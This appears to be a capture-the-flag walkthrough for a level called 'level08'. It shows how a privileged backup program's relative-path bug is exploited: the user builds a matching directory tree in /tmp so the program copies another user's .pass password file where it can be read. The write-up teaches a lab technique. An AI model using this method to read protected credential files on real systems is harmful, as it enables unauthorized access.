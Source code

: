 
# Level08 - Exploiting Relative Path Vulnerability to Access Protected File

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
```

The program expects a filename as an argument.

## Step 2: Testing with a Target File

Try running the program with the file path of the target:

```bash
$ ./level08 ~level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

The program attempts to open the file `./backups//home/users/level09/.pass` using a relative path.

## Step 3: Creating the Required Directory Structure

Since the program is using a relative path, we can exploit this by creating the necessary directory structure in a writable location like `/tmp`.

### Creating the Path in `/tmp`

Change to `/tmp` and create the required directory structure:

```bash
$ cd /tmp
$ mkdir -p ./backups//home/users/level09/
```

## Step 4: Running the Program from `/tmp`

Run the program from `/tmp` to match the expected path:

```bash
$ ~/level08 ~level09/.pass
```

## Step 5: Reading the Output File

After running the program, check the created file:

```bash
$ cat backups/home/users/level09/.pass
```

This approach demonstrates how the relative path vulnerability in the program can be exploited to gain unauthorized access to protected files by manipulating the working directory structure.
